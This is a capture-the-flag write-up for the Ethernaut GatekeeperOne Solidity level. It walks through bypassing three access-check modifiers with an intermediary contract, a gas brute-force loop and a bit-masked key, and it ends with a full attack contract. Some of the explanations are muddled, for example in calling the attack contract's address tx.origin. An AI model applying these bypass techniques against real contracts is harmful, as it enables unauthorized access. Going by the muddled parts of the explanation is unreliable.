

# Challenge 13



```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract GatekeeperOne {

  address public entrant;

  modifier gateOne() {
    require(msg.sender != tx.origin);
    _;
  }

  modifier gateTwo() {
    require(gasleft() % 8191 == 0);
    _;
  }

  modifier gateThree(bytes8 _gateKey) {
      require(uint32(uint64(_gateKey)) == uint16(uint64(_gateKey)), "GatekeeperOne: invalid gateThree part one");
      require(uint32(uint64(_gateKey)) != uint64(_gateKey), "GatekeeperOne: invalid gateThree part two");
      require(uint32(uint64(_gateKey)) == uint16(uint160(tx.origin)), "GatekeeperOne: invalid gateThree part three");
    _;
  }

  function enter(bytes8 _gateKey) public gateOne gateTwo gateThree(_gateKey) returns (bool) {
    entrant = tx.origin;
    return true;
  }
}
```

Challenge
---
> Make it past the gatekeeper and register as an entrant to pass this level.

Things that might help:
  - Remember what you've learned from the Telephone and Token levels.

1. `gasleft() returns (uint256)`: remaining gas 

Further Reading : [link](https://docs.soliditylang.org/en/v0.8.3/control-structures.html#external-function-calls)


Solution 
---
1. We have pass first three modifier let's see `gateOne` modifier

```solidity
  modifier gateOne() {
    require(msg.sender != tx.origin);
    _;
  }
```

it says `msg.sender != tx.origin` we already encountered this type of thing in Telephone.

We will make sure whoever the calling the contract must be `tx.origin` (EOA) and for that we will make new contract.

2. `gateTwo` modifier

```solidity
  modifier gateTwo() {
    require(gasleft() % 8191 == 0);
    _;
  }
```

we see here is if our remaining gas is modulo by 8191 then we will pass this test. we will get to that here in sec.

3. `GateThree` modifier

```solidity
  modifier gateThree(bytes8 _gateKey) {
      require(uint32(uint64(_gateKey)) == uint16(uint64(_gateKey)), "GatekeeperOne: invalid gateThree part one");
      require(uint32(uint64(_gateKey)) != uint64(_gateKey), "GatekeeperOne: invalid gateThree part two");
      require(uint32(uint64(_gateKey)) == uint16(uint160(tx.origin)), "GatekeeperOne: invalid gateThree part three");
    _;
  }
```

we need to bit masking  here is great links check this out first.   
1. [link 1](https://medium.com/@mweiss.eth/solidity-and-evm-bit-shifting-and-masking-in-assembly-yul-942f4b4ebb6a)
2. [link 2](https://en.wikipedia.org/wiki/Mask_(computing))

First see `uint32(uint64(_gateKey)) == uint16(uint64(_gateKey)` 
and if we take look at the function `entrant = tx.origin` which means our `attack contract address` which will be use as `tx.origin` and let's take random address and understant. `0xd8b934580fcE35a11B58C6D73aDeE468a2833fa8` 

##  `bytesN` / `uintM` table equivalence for Solidity

| uintM  | bytesN |
|:------:|:-------:|
| `uint8` | `bytes1` |
| `uint16` | `bytes2` |
| `uint24` | `bytes3` |
| `uint32` | `bytes4` |
| `uint40` | `bytes5` |
| `uint48` | `bytes6` |
| `uint56` | `bytes7` |
| `uint64` | `bytes8` |
| `uint72` | `bytes9` |
| `uint80` | `bytes10` |
| `uint88` | `bytes11` |
| `uint96` | `bytes12` |
| `uint104` | `bytes13` |
| `uint112` | `bytes14` |
| `uint120` | `bytes15` |
| `uint128` | `bytes16` |
| `uint136` | `bytes17` |
| `uint144` | `bytes18` |
| `uint152` | `bytes19` |
| `uint160` | `bytes20` |
| `uint168` | `bytes21` |
| `uint176` | `bytes22` |
| `uint184` | `bytes23` |
| `uint192` | `bytes24` |
| `uint200` | `bytes25` |
| `uint208` | `bytes26` | 
| `uint216` | `bytes27` |
| `uint224` | `bytes28` |
| `uint232` | `bytes29` |
| `uint240` | `bytes30` |
| `uint248` | `bytes31` |
| `uint256` | `bytes32` |

- creadit - Jean Cvllr 

### Part 1

The _gateKey converted to a uint32 must be equal to its value converted to a uint16.

```
uint32(uint64(_gateKey)) == uint16(uint64(_gateKey))
0xXXXXXXXXXXXXXXXX       == 0xXXXXXXXXXXXXXXXX
          |______|                        |__|
```          
Since the uint16 represents the last 2 bytes, our key must look like this:

`0xXXXXXXXX0000XXXX`

### Part 2

The _gateKey converted to a uint32 must be different than its cast to a uint64.

```
uint32(uint64(_gateKey)) != uint64(_gateKey)
0xXXXXXXXX0000XXXX       != 0xXXXXXXXX0000XXXX
          |______|            |______________|
```

To do that, we need the 4 bytes on the left-hand side to not be made of 0.
So, we could do something like:

`0x100000000000XXXX`

### Part 3

Finally, we need the _gateKey converted to a uint32 to be equal to the tx.origin converted to a uint16:

```
uint32(uint64(_gateKey)) == uint16(tx.origin)
0x0000000000000000       == 0x0000000000000000
          |______|                        |__|
```
This results in the following key:
```
0x100000000000AAAA
              |__| –— Replace those 2 bytes with the last 2 bytes
                      Of your address.
```
now let's look at the second one how to pass the gas that will pass out challenge.

Let's Gate tot the Final Second One `gasleft()` let's brute force.

```solidity
        uint256 gas = 90000;

        for (uint i; i < 8191; i++) {
          gas += 1;
          try gatekeeperOne.enter{gas: gas}(_gateKey) {
            break;
          } catch {}
        }
```

for loop will continue till pass the Challenge.


Here's The Full Code

```solidity
contract GateKeeperOneAttack {

  GatekeeperOne gatekeeperOneAddress;

  // instance address 
  constructor(address _addr) public {
    gatekeeperOneAddress = GatekeeperOne(_addr);
  }

  function solve(bytes8 _gateKey) external {
        uint256 gas = 90000;
        for (uint i; i < 8191; i++) {
          gas += 1;
          try gatekeeperOneAddress.enter{gas: gas}(_gateKey) {
            break;
          }
          catch { }
    }   
  }
}
```

get the instance address and deploy and call the solve function now see the entrant will set your EOA address, now submit the instance your challenge will be cleared.
